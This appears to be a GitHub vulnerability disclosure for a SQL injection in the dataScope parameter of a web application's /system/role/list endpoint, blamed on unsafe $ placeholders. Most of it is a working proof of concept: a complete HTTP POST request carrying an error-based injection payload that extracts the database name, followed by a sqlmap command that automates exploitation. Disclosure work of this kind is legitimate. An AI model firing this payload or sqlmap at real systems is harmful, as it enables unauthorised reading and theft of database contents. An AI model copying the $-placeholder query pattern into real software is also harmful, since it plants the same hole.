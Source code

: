 SQL injection exists in the dataScope parameter of the /system/role/list interface of the system.  
The cause of this vulnerability is the use of the $ placeholder symbol.  
![image](https://github.com/biantaibao/snow_SQL/assets/131763503/f03ed2f3-cfb3-43c0-aac3-43b476d201da)  
Find the front-end interface of the interface and click search in the role management.  
<img width="415" alt="image" src="https://github.com/biantaibao/snow_SQL/assets/131763503/874707cd-41a3-45e7-8f33-f30444ec5ddf">   
poc:  
POST /system/role/list HTTP/1.1  
Host: 127.0.0.1:9527  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0  
Accept: application/json, text/javascript, */*; q=0.01  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
X-Requested-With: XMLHttpRequest  
Content-Length: 150  
Origin: http://127.0.0.1:9527  
Connection: close  
Referer: http://127.0.0.1:9527/system/role  
Cookie: Hm_lvt_f8cddee34ca21f05373a9388cfdd798b=1704968094;  
Sec-Fetch-Dest: empty  
Sec-Fetch-Mode: cors  
Sec-Fetch-Site: same-origin  

roleName=11&roleKey=11&status=&params%5BbeginTime%5D=&params%5BendTime%5D=&params[dataScope]=and extractvalue(1,concat(0x7e,(select database()),0x7e))  

Successfully viewed database。  
![image](https://github.com/biantaibao/snow_SQL/assets/131763503/f3ecfa83-796b-43c3-abd3-4dbfdef48aba)  
![image](https://github.com/biantaibao/snow_SQL/assets/131763503/b186c4dc-cc72-45d1-9223-7bb7e38dace1)  
sqlmap command：python sqlmap.py -r sql.txt  
![image](https://github.com/biantaibao/snow_SQL/assets/131763503/384af2e6-084b-4218-a8ef-103382374912)






